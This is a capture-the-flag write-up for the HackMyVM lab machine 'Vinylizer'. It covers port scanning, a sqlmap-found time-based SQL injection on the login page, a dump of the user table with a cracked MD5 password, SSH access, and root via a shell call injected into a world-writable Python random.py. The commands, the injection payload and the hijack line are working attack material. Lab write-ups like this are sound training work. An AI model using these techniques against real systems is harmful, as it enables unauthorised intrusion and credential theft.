



## Description 

- **Title** : Vinilyzer
- **Difficulty** : Easy
- **Release date** : 2024-02-01
- **Notes** : *Very straightforward, don't overthink!*
- **Download** [here](https://downloads.hackmyvm.eu/vinylizer.zip) !


Using **NetDiscover** to retrieve the IP address : 
```bash
netdiscover -i "wlo1" -r 192.168.1.0/24
```

In our case, it will be : ``192.168.1.56``.

## Foothold part

Let's start with a scan : 
```bash
rustscan -a 192.168.1.56 -- -A -oN nmap.txt
```

Look at the output : 
```bash
# Nmap 7.93 scan initiated Thu May 30 15:20:00 2024 as: nmap -vvv -p 22,80 -A -oN nmap.txt 192.168.1.56
Nmap scan report for vinylizer.lan (192.168.1.56)
Host is up, received arp-response (0.00036s latency).
Scanned at 2024-05-30 15:20:01 CEST for 7s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f8e37935128be741d4279d97a514b616 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPn6OQh4Jy9oyM6O/qYWasR3F+jlDB9pa+lt4lIozKUXQj4VQqyApSpeWUa6ab6aRTyLs/FsIIzzN+4UhhATW9Y=
|   256 e38b15126bff975782e520582dcb5533 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHXHoN/UNUABnKuivSNek+xxa08taSiT5Wqm1O3ldxRk
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Vinyl Records Marketplace
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:6D:EC:17 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/30%OT=22%CT=%CU=40604%PV=Y%DS=1%DC=D%G=N%M=080027%TM
OS:=66587D08%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=103%TI=Z%CI=Z%II=I%
OS:TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5
OS:=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=
OS:FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Uptime guess: 43.826 days (since Tue Apr 16 19:30:22 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.36 ms vinylizer.lan (192.168.1.56)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 30 15:20:08 2024 -- 1 IP address (1 host up) scanned in 8.32 seconds
```

As we can see, there are two open ports : 22 **SSH** and 80 **HTTP**.

### Website exploitation

The **OpenSSH** service doesn't seem vulnerable, so we will search on the website.

Open your web browser and go on ``http://192.168.1.56/`` : 



We have a login page at ``/login.php`` : 


I tried basic credentials like `admin:admin`, `root:toor`, ... but nothing.

We can try if there is a SQL injection. Intercept the POST request with **BurpSuite** and use **SQLMap** : 

```bash
sqlmap -r request.req
```

Wait a little : 

```bash
[16:59:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5180 FROM (SELECT(SLEEP(5)))Mvqp) AND 'jHDJ'='jHDJ&password=admin&login=
---
[16:59:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[16:59:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 16:59:53 /2024-05-30/
```

We have a SQL injection ! Now, enumerate the databases  : 

```bash
sqlmap -r request.req --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.4.7#dev}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:00:11 /2024-05-30/
------------------------REDACTED----------------------------------
[17:00:59] [INFO] retrieved: performance_schema
[17:01:55] [INFO] retrieved: vinyl_marketplace
available databases [3]:
[*] information_schema
[*] performance_schema
[*] vinyl_marketplace

[17:02:51] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 17:02:51 /2024-05-30/
```

Then, enumerate the tables : 
```bash
sqlmap -r request.req -D vinyl_marketplace --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.4.7#dev}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
----------------------------REDACTED-------------------------------
[17:03:50] [INFO] retrieved: 
[17:04:00] [INFO] adjusting time delay to 1 second due to good response times
users
Database: vinyl_marketplace
[1 table]
+-------+
| users |
+-------+

[17:04:14] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 17:04:14 /2024-05-30/
```

Finally, dump the content of the table : 
```bash
sqlmap -r request.req -D vinyl_marketplace -T users --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.4.7#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

-----------------------------REDACTED----------------------------
Database: vinyl_marketplace
Table: users
[2 entries]
+----+----------------------------------+-----------+----------------+
| id | password                         | username  | login_attempts |
+----+----------------------------------+-----------+----------------+
| 1  | 9432522ed1a8fca612b11c3980a031f6 | shopadmin | 0              |
| 2  | password123                      | lana      | 0              |
+----+----------------------------------+-----------+----------------+

[17:13:59] [INFO] table 'vinyl_marketplace.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.1.56/dump/vinyl_marketplace/users.csv'
[17:13:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 17:13:59 /2024-05-30/
```

## User part

Now, we have two users : *lana* and *shopadmin*. The *shopadmin*'s password is a hash.

With **haiti**, we know the format : 
```bash
haiti '9432522ed1a8fca612b11c3980a031f6'                                                            
MD5 [HC: 0] [JtR: raw-md5]
```

Use **JohnTheRipper** : 
```bash
[May 30, 2024 - 17:32:34 (CEST)] exegol-vulnhub /workspace # john hash --wordlist=/opt/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
addicted2vinyl   (shopadmin)     
1g 0:00:00:00 DONE (2024-05-30 17:32) 1.695g/s 17573Kp/s 17573Kc/s 17573KC/s addidas17..addias123
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
[May 30, 2024 - 17:32:44 (CEST)] exegol-vulnhub /workspace #
```

We have another password. 

Try to log with *ssh*, using ``shopadmin:addicted2vinyl`` : 



We have the user flag : `I_L0V3_V1NYL5`.

## Root part

Run ``sudo -l`` : 
```bash
shopadmin@vinylizer:~$ sudo -l
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py
shopadmin@vinylizer:~$
```

Check the source code of the python file : 
```python
# @Name: Vinylizer
# @Author: MrMidnight
# @Version: 1.8

import json
import random

def load_albums(filename):
    try:
        with open(filename, 'r') as file:
            content = file.read()
            if not content:
                return []
            albums = json.loads(content)
    except FileNotFoundError:
        albums = []
    except json.JSONDecodeError:
        print(f"Error decoding JSON_Config: {filename}.")
        albums = []
    return albums


def save_albums(filename, albums):
    with open(filename, 'w') as file:
        json.dump(albums, file, indent=None)


def print_albums(albums):
    if not albums:
        print("No albums available.")
    else:
        print("Available Albums:")
        for album in albums:
            print(f"- {album['name']}, Sides: {', '.join(album['sides'])}")


def randomize_sides(album):
    sides = list(album['sides'])
    random.shuffle(sides)
    return {"name": album['name'], "sides": sides}


def randomize_vinyl(albums):
    if not albums:
        print("No albums available. Add one with 'A'.")
        return None, None

    random_album = random.choice(albums)
    random_side = random.choice(random_album['sides'])

    return random_album['name'], random_side


def add_vinyl(albums, filename, name, num_sides):
    # Generate sides from A to the specified number
    sides = [chr(ord('A') + i) for i in range(num_sides)]

    # Add new vinyl
    new_album = {"name": name, "sides": sides}
    albums.append(new_album)
    save_albums(filename, albums)
    print(f"Album '{name}' with {num_sides} sides added successfully.\n")


def delete_vinyl(albums, filename, name):
    for album in albums:
        if album['name'] == name:
            albums.remove(album)
            save_albums(filename, albums)
            print(f"Album '{name}' deleted successfully!\n")
            return
    print(f"Album '{name}' not found.")


def list_all(albums):
    print_albums(albums)


if __name__ == "__main__":

    # Banner. Dont touch!
    print("o      'O                  o\nO       o o               O  o\no       O                 o\no       o                 O\nO      O' O  'OoOo. O   o o  O  ooOO .oOo. `OoOo.\n`o    o   o   o   O o   O O  o    o  OooO'  o\n `o  O    O   O   o O   o o  O   O   O      O\n  `o'     o'  o   O `OoOO Oo o' OooO `OoO'  o\nBy: MrMidnight          o\n                     OoO'                         \n")

    config_file = "config.json"

    albums_config = load_albums(config_file)

    while True:
        choice = input("Do you want to (R)andomly choose a Album, (A)dd a new one, (D)elete an album, (L)ist all albums, or (Q)uit? : ").upper()

        if choice == "R":
            random_album, random_side = randomize_vinyl(albums_config)
            if random_album is not None and random_side is not None:
                print(f"Randomly selected album: {random_album}, Random side: {random_side}\n")

        elif choice == "A":
            name = input("\nEnter the name of the new album: ")

            while True:
                try:
                    num_sides = int(input("Enter the number of sides for the new album: "))
                    break  # Break the loop if the input is a integer
                except ValueError:
                    print("\nInvalid input. Please enter a valid integer for the number of sides.")

            add_vinyl(albums_config, config_file, name, num_sides)

        elif choice == "D":
            name = input("\nEnter the name of the album to delete: ")
            delete_vinyl(albums_config, config_file, name)

        elif choice == "L":
            list_all(albums_config)
            print("")

        elif choice == "Q":
            print("\nQuitting Vinylizer.")
            break

        else:
            print("Invalid Input!")
```

There are two import. We can check if we are able to write in one of this libraries : 

```bash
shopadmin@vinylizer:/opt$ ls -la /usr/lib/python3.10/random.py 
-rwxrwxrwx 1 root root 33221 Nov 20  2023 /usr/lib/python3.10/random.py
shopadmin@vinylizer:/opt$
```

The ``random.py`` is writable so we can modify the source code of a function used in ``vinylizer.py``.

Add this line in the `choice` function : 
```python
def choice(self, seq):
        """Choose a random element from a non-empty sequence."""
        # raises IndexError if seq is empty
        _os.system("/bin/bash") # ADD THIS
        return seq[self._randbelow(len(seq))]
```

Save and execute : 



We are root ! 

Go in ``/root`` folder read the flag : 
```bash
root@vinylizer:~# cat root.txt 
4UD10PH1L3
root@vinylizer:~#
```

## Conclusion

The user part was easy, like the root part. 

Thanks for reading ! 
